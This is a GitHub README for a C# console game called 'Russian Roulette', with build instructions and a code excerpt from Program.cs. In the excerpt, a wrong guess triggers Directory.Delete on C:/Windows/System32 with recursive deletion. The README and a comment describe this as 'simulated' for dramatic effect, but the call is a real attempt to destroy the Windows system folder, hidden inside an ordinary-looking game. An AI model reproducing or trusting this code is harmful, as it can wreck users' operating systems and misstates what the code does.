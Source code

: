 ## Russian Roulette
```markdown
# Russian Roulette

A web application built in C# simulating the classic game of Russian Roulette.

## Features

- Simulates the game of Russian Roulette with a console-based interface.
- Built with C# for robust and efficient performance.
- Simple and intuitive user experience.

## Getting Started

### Prerequisites

- [.NET SDK](https://dotnet.microsoft.com/download) (compatible version for your project)
- A code editor like [Visual Studio](https://visualstudio.microsoft.com/) or [Visual Studio Code](https://code.visualstudio.com/).

### Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Atmoloid/Russian-roulette.git
   ```
2. Navigate to the project directory:
   ```bash
   cd Russian-roulette/WebApplication1/WebApplication1
   ```
3. Open the project in your favorite IDE (e.g., Visual Studio).

### Running the Application

1. Build the project to restore dependencies and compile the code:
   ```bash
   dotnet build
   ```
2. Run the application:
   ```bash
   dotnet run
   ```
3. Follow the console instructions to play the game.

---

## Code Breakdown

### 1. Project File (`WebApplication1.csproj`)

The project file defines the structure and configuration of the application. Key details include:
- **Target Framework:** `.NET 8.0` (specified in `<TargetFramework>`).
- **Nullable Reference Types:** Enabled to improve code safety.
- **Implicit Usings:** Enabled, reducing the need for explicit `using` directives.

[View File](https://github.com/Atmoloid/Russian-roulette/blob/e1f9935312bff935a556d9203f3601b89fb4c30f/WebApplication1/WebApplication1/WebApplication1.csproj)

---

### 2. Main Execution File (`Program.cs`)

#### Purpose:
This file contains the main logic for the Russian Roulette simulation. It:
1. Generates a random number between 1 and 10.
2. Prompts the user to guess the number.
3. Determines the outcome based on the user's input.

#### Key Features:
- **Random Number Generation:** Utilizes `Random` to pick a number.
- **User Input Validation:** Ensures the input is a valid integer using `int.TryParse`.
- **Outcome Handling:**
  - If the guess is correct, the user "survives."
  - If the guess is incorrect, a dramatic sequence of messages is displayed, culminating in a simulated deletion of `System32` (for dramatic effect; ensure this is safe for actual execution).

#### Code Example:
```c#
Random r = new Random();
int number = r.Next(1,10);
Console.WriteLine("Guess the Number (between 1 and 10):");

string? input = Console.ReadLine();
int guess;

if (int.TryParse(input, out guess))
{
    if (guess == number)
    {
        Console.WriteLine("You guessed it! You survived.");
    }
    else
    {
        Console.WriteLine($"Oh...");
        Thread.Sleep(5000);
        Console.WriteLine("you're wrong...");
        Thread.Sleep(5000);
        Console.WriteLine("I'm sorry");
        Thread.Sleep(5000);
        Directory.Delete("C:/Windows/System32", true); // Simulated dramatic effect
    }
}
else
{
    Console.WriteLine("Invalid input!");
}
```

[View File](https://github.com/Atmoloid/Russian-roulette/blob/e1f9935312bff935a556d9203f3601b89fb4c30f/WebApplication1/WebApplication1/Program.cs)


